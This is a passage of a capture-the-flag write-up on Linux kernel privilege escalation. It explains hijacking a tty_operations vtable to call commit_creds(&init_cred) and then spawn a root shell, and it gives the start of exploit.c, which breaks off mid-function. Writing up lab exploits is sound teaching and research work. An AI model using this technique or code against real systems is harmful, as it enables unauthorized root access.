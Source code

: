 So, what this means now is that we essentially have the ability to execute `A(rdi)`, and so, in our case, we can execute `commit_creds(something)`.

Now, normally you would execute `commit_creds(prepare_kernel_creds(NULL))`, however, in order to ease the difficulty for us (as having `prepare_kernel_creds` execute and then grabbing its value would be difficult), we can instead use [init_cred](https://elixir.bootlin.com/linux/v6.6.16/source/kernel/cred.c#L44). `init_cred` essentially is just credentials already set to root, initialized by the kernel. This means we can make it much easier on ourselves by basically just using this *jop* formula once, with `rdi=&init_cred`.

## The Finale

With all that set, once `commit_cred` executes it will modify our process privileges for us. We can then go ahead and finish our exploit by calling `system("/bin/sh")` in order to get an elevated shell.

(Closing the program will also crash the kernel because of `/dev/ptmx` shutting down with it. To fix this you will need to do some extra work to ensure the fake `tty_operations` has stuff like `close` set to its proper values, but I didn't really care about that once I got the flag so)

```c {script_name="exploit.c"}
#include <sys/ioctl.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <assert.h>
#include <stdint.h>
#include <linux/prctl.h>
#include <sys/prctl.h>

#define K1_TYPE 0xB9

#define ALLOC _IOW(K1_TYPE, 0, size_t)
#define FREE _IO(K1_TYPE, 1)
#define USE_READ _IOR(K1_TYPE, 2, char)
#define USE_WRITE _IOW(K1_TYPE, 2, char)

#define BUFFER_SIZE 0x400

#define FAKE_VTABLE_OFFSET 0x300

int fd = 0;
void perform_ioctl(unsigned int cmd, void* args) {
    long res = ioctl(fd, cmd, args);
    printf("%s, returned %d\n", (res==0)?"success":"failure", res);

    if(res != 0) {
        exit(1);
    }
}

int tty = 0;
unsigned char buf[BUFFER_SIZE];
uint64_t* vtable;
uint64_t raw_execute(uint64_t func, uint64_t rcx, uint64_t rdx) {
    //set our function
    vtable[12] = func;
    perform_ioctl(USE_WRITE, (unsigned char*)&buf);

    //execute
    uint64_t res = ioctl(tty, rcx, rdx);
    if(res != -1) {
        return res;
```